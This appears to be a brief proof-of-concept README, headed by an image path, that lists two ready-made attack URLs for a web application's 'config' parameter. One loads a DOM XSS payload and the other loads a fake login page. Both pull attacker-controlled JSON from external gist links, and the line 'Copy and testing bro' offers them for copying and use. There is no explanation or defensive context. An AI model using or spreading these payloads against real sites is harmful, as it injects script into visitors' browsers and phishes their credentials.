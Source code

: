 # POC

Copy and testing bro

DOM XSS : /?config=https://gist.githubusercontent.com/Alicia-cmd/df611b98c1d21546704ed09cf2b1d19f/raw/8cd5c43d58221598d12414527e0db53f50400127/poc-xss.json

fake login : /?config=https://gist.githubusercontent.com/Alicia-cmd/ea10d7496597faa1f470e1833eea7f92/raw/03d93a721334bf2a9e4c3d170ba4840f3a05a724/poc-fake-login.json


